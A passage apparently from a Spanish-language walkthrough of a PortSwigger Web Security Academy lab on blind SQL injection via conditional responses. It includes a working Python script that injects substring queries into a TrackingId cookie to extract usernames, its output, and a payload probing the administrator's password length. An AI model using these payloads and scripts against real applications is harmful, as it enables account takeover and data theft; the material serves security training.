 ```
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 30):
            for character in characters:
                cookies = {
                    'TrackingId': "q5zrdy5bS1cbQoge' and (select substr(string_agg(username,', '),%d,1) from+users)='%s'-- - " % (
                    position, character),
                    'session': "TLQCRenf9WOJ32JrP9iO3PG1TqebSben"
                }

                p1.status(cookies['TrackingId'])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` un `listado` de `usuarios`

```
# python sqli_conditional_response.py
[ ] Fuerza bruta: q5zrdy5bS1cbQoge' and (select substr(string_agg(username,', '),29,1) from+users)='s'-- - 
[↑] Output: administrator,+wiener,+carlos
```

`Obtenemos` la `longitud` de la `contraseña` del usuario `administrator`, la cual es de `20 caracteres`

```
Cookie: TrackingId=q5zrdy5bS1cbQoge'+and+length((select+password+from+users+where+username='administrator'))=20--+-+; session=TLQCRenf9WOJ32JrP9iO3PG1TqebSben
```

Modificamos le script para `obtener` la `contraseña` del usuario `administrador`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a5d00a603008a5b80aacc1e00950014.web-security-academy.net/"
```